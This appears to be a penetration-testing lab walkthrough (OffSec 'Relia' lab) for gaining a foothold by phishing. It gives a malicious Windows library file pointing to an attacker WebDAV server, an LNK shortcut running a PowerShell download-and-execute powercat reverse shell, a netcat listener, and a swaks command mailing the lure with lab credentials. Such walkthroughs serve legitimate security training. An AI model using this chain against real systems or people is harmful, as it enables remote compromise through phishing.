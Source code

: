 ## DAV setup

1. RDP to 192.168.x.250.

> xfreerdp /cert-ignore /u:offsec /p:'lab' /d:relia.com /v:192.168.248.250 +drive:kali,"/home/kali/Downloads/Share"

2.  Use Visual Studio Code to create the library file.

Note: Modify the IP address to the WebDAV server (our VPN/TUN0). Create a new text file and save it as **config.Library-ms**

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.167</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

3. Create a desktop shortcut (lnk).

For the location:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167:8000/powercat.ps1'); powercat -c 192.168.45.167 -p 4444 -e powershell"
```

4. Copy the files to your machine using the RDP file share.

5. Start a http server.

Copy nc.exe to your www directory
> cp "/usr/share/windows-resources/binaries/nc.exe" "/home/kali/offsec/pen200/Relia/www/" 

Starts a http server.
> python3 -m http.server 8000 --directory "/home/kali/offsec/pen200/Relia/www/"

7. Start a WebDAV server.

Starts a WebDAV server using the folder "/home/kali/Relia/webdav/".
> wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root "/home/kali/offsec/pen200/Relia/webdav/"

6. Start a listener.

Netcat Listener.
> nc -lvnp 4444

7) Send a email to our victim.

Sends a email to the server.
> sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @/home/kali/Relia/webdav/config.library-ms --server 192.168.248.189 --body "Attached is the link to the problematic email." --header "Subject: Urgent Mail Issue" --auth-user 'maildmz@relia.com' --auth-password 'DPuBT9tGCBrTbR' --suppress-data
